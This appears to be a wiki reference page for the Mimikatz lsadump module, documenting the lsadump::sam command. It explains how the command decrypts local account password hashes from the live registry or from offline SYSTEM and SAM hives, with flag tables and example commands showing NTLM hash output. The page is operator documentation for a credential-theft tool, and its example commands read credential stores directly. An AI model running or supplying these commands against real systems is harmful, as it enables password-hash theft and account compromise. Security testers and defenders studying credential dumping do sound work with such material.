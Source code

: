 ```yaml
---
title: Mimikatz::Lsadump
description: LSADump Module Reference
published: true
date: 2025-10-09T14:11:04.118Z
tags: mimikatz
editor: markdown
dateCreated: 2025-10-08T15:29:42.007Z
---
```


# Mimikatz::LSADump

`lsadump` Module Reference

The `lsadump` module extracts or manipulates secrets that the Local Security Authority (LSA) and
related directory services maintain. The commands below are documented in the order they are
registered in the module table so that the CLI syntax mirrors the implementation.

Each subsection summarizes the goal of the command, lists the accepted flags, and explains why you
would use each option in practice. Unless noted otherwise, commands default to operating on the
local machine using the live registry and LSASS process.

## `lsadump::sam`
Reads the SAM database and decrypts local account password hashes. It can operate online or against
exported hive files.

| Flag | Purpose | Why use it |
| --- | --- | --- |
| `/system:<path>` | Opens an offline SYSTEM hive and derives the SysKey from it. | Required when dumping hashes from offline hives where LSASS is not available; also allows point-in-time analysis. |
| `/sam:<path>` | Opens an offline SAM hive that pairs with the supplied SYSTEM hive. | Lets you read SAM data from another installation or from backup copies. |

Without flags the command opens the local registry and queries `HKLM\SYSTEM` and `HKLM\SAM`
through the registry APIs.【F:mimikatz/modules/kuhl_m_lsadump.c†L32-L90】

### Example usage
* Dump live SAM data on the current host:
  ```
  mimikatz # lsadump::sam
  ```
  Example output:
  ```
  Domain : WORKSTATION
  SysKey : 2a8e5a05ce5409321c5d1d51f40ca1ea
  RID 000001F4 (Administrator)
    Hash NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0
  RID 000001F5 (Guest)
    Hash NTLM : aad3b435b51404eeaad3b435b51404ee
  ```
* Dump offline hives collected from another machine:
  ```
  mimikatz # lsadump::sam /system:C:\Temp\SYSTEM /sam:C:\Temp\SAM
  ```
  Example output:
  ```
  Domain : LABPC
  SysKey : a93e0d012ac8ff2db2f1cbba91c56064
  ...
  ```
